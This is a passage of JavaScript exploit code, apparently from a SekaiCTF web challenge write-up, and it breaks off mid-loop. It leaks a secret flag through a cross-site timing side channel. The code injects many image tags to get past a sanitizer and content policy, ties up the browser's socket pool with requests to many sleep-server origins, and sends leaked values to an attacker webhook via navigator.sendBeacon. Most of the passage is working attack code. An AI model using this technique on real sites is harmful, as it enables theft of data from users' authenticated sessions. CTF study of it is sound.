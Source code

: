 ```html
        console.log(id, payload);
        navigator.sendBeacon(WEBHOOK + "?" + id, payload); 
    }
    
    // Similar to JQuery
    const $ = document.querySelector.bind(document);
    
    // Known part of the flag
    const known = "SEKAI{";
    let alphabet = "_abcdefghijklmnopqrstuvwxyz}";
    
    // Reduce the alphabet using a hash (#) in the URL
    if (location.hash) {
        alphabet = alphabet.slice(alphabet.indexOf(location.hash.slice(1)));
    }
    
    // Funtion to leak chars
    const leak = async (c) => {
        // Prepare post with known flag and the new char
        let payload = `${known + c}`;
        // Inject as many <img as possible
        // you need to respect the CSP and create URLs that are different
        for(let i = 0; payload.length < 2048; i++) {
            payload += `<img src=js/purify.js?${i.toString(36)}>`;
        }
        
        // Inject HTML
        $("#create input[type=text]").value = payload;
        $("#create").submit();
        await new Promise(r => setTimeout(r, 1000));
        
        // Remove post with index 0
        $("#remove").submit();
        await new Promise(r => setTimeout(r, 500));
        
        let deltas = [];
        
        // Try each char 3 times
        for (let i = 0; i < 3; i++) {
            const SOCKET_LIMIT = 255;
            // you will need a custom server that works like num.sleepserver.com/sleep/delay
            // needed to freeze the blocked sockets, and they have to all be on different origins
            // Check https://www.npmjs.com/package/sleep-server using subdomains DNS wildcard
            const SLEEP_SERVER = i => `http://${i}.sleepserver.com/sleep/60`; 

            const block = async (i, controller) => {
                try {
                    return fetch(SLEEP_SERVER(i), { mode: "no-cors", signal: controller.signal });
                }
                catch(err) {}
            };

            // block SOCKET_LIMIT sockets
            const controller = new AbortController();
            for (let i = 0; i < SOCKET_LIMIT; i++) {
                block(i, controller);
            }
            
            // Make the bot access the page with the posts
            window.open("https://safelist.ctf.sekai.team/?" + Math.random().toString(36).slice(2), "pwn");
            await new Promise(r => setTimeout(r, 500));
            
```